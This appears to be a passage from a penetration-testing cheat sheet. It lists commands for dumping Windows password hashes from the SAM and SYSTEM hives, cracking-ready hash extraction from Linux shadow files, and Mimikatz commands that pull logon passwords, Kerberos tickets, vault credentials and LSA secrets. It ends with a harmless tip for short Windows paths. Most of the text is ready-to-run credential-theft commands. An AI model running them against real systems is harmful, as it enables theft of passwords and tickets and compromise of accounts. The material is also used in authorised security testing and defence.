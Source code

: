 ### Windows

```
reg save HKLM\SAM c:\SAM
reg save HKLM\System c:\System

samdump2 System SAM > hashes
```

### Linux

```
unshadow passwd shadow > hashes
```

------

## MIMIKATZ

```
privilege::debug
```

```
sekurlsa::logonpasswords
sekurlsa::tickets /export

kerberos::list /export

vault::cred
vault::list

lsadump::sam
lsadump::secrets
lsadump::cache
```

------

## MISCELLANEOUS

### Get a Windows path without spaces

```
# path.cmd
@echo off
echo %~s1

path.cmd "C:\Program Files (x86)\Common Files\test.txt"
C:\PROGRA~2\COMMON~1\test.txt -> Valid path without spaces
```

------
